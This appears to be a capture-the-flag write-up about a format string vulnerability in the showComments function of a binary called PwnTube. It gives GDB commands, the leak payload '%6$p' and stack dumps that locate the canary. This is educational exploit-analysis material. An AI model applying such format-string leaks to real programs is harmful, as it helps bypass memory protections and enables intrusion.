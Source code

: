 Format String Vulnerability is in the showComments function.

Run this binary with GDB: `gdb -q PwnTube`

input:

```text
set follow-fork-mode parent
b *showComments+96
r
4
%6$p
3
c 8
```

gdb:

```gdb
[-------------------------------------code-------------------------------------]
   0x5555555553e3 <showComments+85>:    add    rax,rdx
   0x5555555553e6 <showComments+88>:    mov    rdi,rax
   0x5555555553e9 <showComments+91>:    mov    eax,0x0
=> 0x5555555553ee <showComments+96>:    call   0x555555555080 <printf@plt>
   0x5555555553f3 <showComments+101>:   add    DWORD PTR [rbp-0x4],0x1
   0x5555555553f7 <showComments+105>:   mov    eax,DWORD PTR [rbp-0x4]
   0x5555555553fa <showComments+108>:   cmp    eax,DWORD PTR [rbp-0x1c]
   0x5555555553fd <showComments+111>:   jl     0x5555555553c9 <showComments+59>
Guessed arguments:
arg[0]: 0x7fffffffdc00 --> 0xa70243625 ('%6$p\n')
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdad0 --> 0x9ffffdaf0
0008| 0x7fffffffdad8 --> 0x7fffffffdb10 ("Nice video!\n")
0016| 0x7fffffffdae0 --> 0x5
0024| 0x7fffffffdae8 --> 0x8ffffdd58
0032| 0x7fffffffdaf0 --> 0x7fffffffdc40 --> 0x1
0040| 0x7fffffffdaf8 --> 0x555555555abd (<main+850>:    jmp    0x555555555b61 <main+1014>)
0048| 0x7fffffffdb00 --> 0x10000000000
0056| 0x7fffffffdb08 --> 0x300000009
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 3, 0x00005555555553ee in showComments ()

gdb-peda$ tele $sp 100
0000| 0x7fffffffdad0 --> 0x9ffffdaf0
(snip)
0392| 0x7fffffffdc58 --> 0x55555555576b (<main>:        push   rbp)
(snip)
0520| 0x7fffffffdcd8 --> 0x6e81d4e7447e3300  # canary value
```

According to [x86_64 calling convention](https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux#Via_dedicated_system_call_invocation_instruction), the output value of the printf 6th argument (`printf(fmt, 1st, 2nd, 3rd, 4th, 5th, 6th, ...)`) is $sp value.
